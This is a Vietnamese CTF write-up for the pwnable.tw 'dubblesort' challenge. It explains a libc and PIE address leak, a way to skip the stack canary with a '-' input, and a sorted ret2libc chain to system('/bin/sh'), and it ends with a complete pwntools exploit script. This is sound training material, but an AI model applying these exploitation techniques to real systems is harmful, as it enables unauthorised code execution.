

# pwnable.tw - Dubblesort

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
dubblesort_patched: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped

```
Đây là file 32-bit bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
FORTIFY:  Enabled
```

Tiếp đến đưa file vào ida-32bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi


# 2. Ý tưởng




Ở đây mình đã test thử và thấy có gì đó khi in `name`, các số dec sau khi `Processing......` là giá trị của 1 địa chỉ 

libc cũng như địa chỉ hàm khi `PIE enable`

Thêm việc nữa là *** stack smashing detected *** xuất hiện. Ở đây có vẻ mình đã ghi đè vào `canary` 

-> `rop_chain`

# 3. Khai thác

```
payload = b"a"*8
p.sendlineafter(b"What your name :", payload)
```

Ok đầu tiên cứ đưa input vào name xem nó đã in ra những gì


Oke vậy ở đây mình nhận ra có thể leak cả địa chỉ libc lẫn địa chỉ hàm

```
payload = b"a"*28
p.sendlineafter(b"What your name :", payload)
p.recvuntil(payload)

libc_base = int.from_bytes(p.recv(4),"little") - 1769482
system = libc_base + 0x3a940
binsh = libc_base + 0x158e8b

leak = int.from_bytes(p.recv(4),"little") + 1322
main = leak + 360


print("[+]Libc_base:    ", hex(libc_base))
print("[+]System:         ", hex(system))
print("[+]Bin_sh:         ", hex(binsh))
```


Kế đến mình đã test khi bị *** stack smashing detected *** ta có thể thấy rằng ở vị trí thứ 25 dùng để so sánh với `canary` mới

Và nhìn vào stack khi đó sẽ thấy ta có thể ghi rop_chain với `system("/bin/sh")` tại ret_add với 35 lần ghi

```
p.sendlineafter(b"How many numbers do you what to sort :", b"35")

def send_value(value):
    p.sendlineafter(b" number :", str(value))

for i in range(24):
    send_value(str(i))

p.sendlineafter(b" number :", b"-")
for i in range(8):
    p.sendlineafter(b" number :", str(system))
p.sendlineafter(b" number :", str(system+1))
p.sendlineafter(b" number :", str(binsh))
```

Giải thích đoạn trên: Do ở hàm `process` đã sắp xếp từ nhỏ đến lớn nên ta cũng phải sắp xếp lại những thứ ta ghi từ nhỏ đến lớn. Rất may ở đây địa chỉ chuỗi `/bin/sh` lớn hơn địa chỉ hàm `system`

+ Loop 24 lần với số nhỏ để bỏ qua 24 vùng nhớ đầu

+ kế đến thay vì send 1 số number mình đã send ký tự để nó bỏ qua và giữ nguyên giá trị tại vị trí 25 là vị trí để so sánh với `canary` (điểu này mình đã phát hiên ra khi test lúc đầu)

+ loop thêm 8 lần để tiến đến `ret_add` và bỏ qua việc hàm `process` sắp xếp lại thứ tự của mình

+ Kế đến là `fake_ret_addr` và tham số `/bin/sh`

# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("dubblesort_patched")
libc = elf.libc

local = False 
if local:
    p = process("./dubblesort_patched")
    gdb.attach(p,'''
    b*main+111
    c
    b*main+310''')
else:
    p = remote('chall.pwnable.tw', 10101)

elf = context.binary = ELF('./dubblesort_patched', checksec=False)

payload = b"a"*28
p.sendlineafter(b"What your name :", payload)
p.recvuntil(payload)

libc_base = int.from_bytes(p.recv(4),"little") - 1769482
system = libc_base + 0x3a940
binsh = libc_base + 0x158e8b

leak = int.from_bytes(p.recv(4),"little") + 1322
main = leak + 360


print("[+]Libc_base:    ", hex(libc_base))
print("[+]System:         ", hex(system))
print("[+]Bin_sh:         ", hex(binsh))

p.sendlineafter(b"How many numbers do you what to sort :", b"35")

def send_value(value):
    p.sendlineafter(b" number :", str(value))

for i in range(24):
    send_value(str(i))

p.sendlineafter(b" number :", b"-")
for i in range(8):
    p.sendlineafter(b" number :", str(system))
p.sendlineafter(b" number :", str(system+1))
p.sendlineafter(b" number :", str(binsh))

p.interactive()
```


